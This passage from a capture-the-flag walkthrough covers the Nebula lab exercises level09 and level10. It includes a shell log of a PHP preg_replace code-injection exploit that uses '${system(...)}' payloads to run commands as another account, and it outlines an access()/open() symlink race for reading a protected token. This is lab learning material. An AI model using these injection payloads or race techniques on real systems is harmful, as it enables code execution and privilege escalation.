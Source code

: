 ```sh
<emain ()>
sh-4.2$ echo "[emain ${phpinfo()}]" > /tmp/9
sh: [emain ${phpinfo()}]: bad substitution
sh-4.2$ echo "[emai\ln ${phpinfo()}]" > /tmp/9
sh: [emai\ln ${phpinfo()}]: bad substitution
sh-4.2$ echo "[email ${phpinfo()}]" > /tmp/9
sh: [email ${phpinfo()}]: bad substitution
sh-4.2$ nano /tmp/9 
sh-4.2$ ./flag09 /tmp/9 getflag
PHP Parse error:  syntax error, unexpected '(' in /home/flag09/flag09.php(15) : regexp code on line 1
PHP Fatal error:  preg_replace(): Failed evaluating code: 
spam("${phpinfo()}") in /home/flag09/flag09.php on line 15
sh-4.2$ nano /tmp/9 
sh-4.2$ ./flag09 /tmp/9 getflag
phpinfo()
PHP Version => 5.3.6-13ubuntu3.2
..

sh-4.2$ cat /tmp/9 
[email {${phpinfo()}}]

```

```sh
sh-4.2$ nano /tmp/9 
sh-4.2$ ./flag09 /tmp/9 getflag
You have successfully executed getflag on a target account
PHP Notice:  Undefined variable: You have successfully executed getflag on a target account in /home/flag09/flag09.php(15) : regexp code on line 1

sh-4.2$ cat /tmp/9 
[email {${system($use_me)}}]
```

## level10
[task description](https://exploit-exercises.lains.space/nebula/level10/)

It's example about access() and race conditions.
access()system call checks whether the **real user ID** or group ID has permissions toaccess a file.

open()system call checks whether the **effective user ID** or group ID has permissions to access a file.

Main idea of this exercise is :
1. create /tmp/test file and run target suid flag10 binary 
 
 --->  access() call
 
2. replace /tmp/test with symbolic link to the token

 --->  open() call
 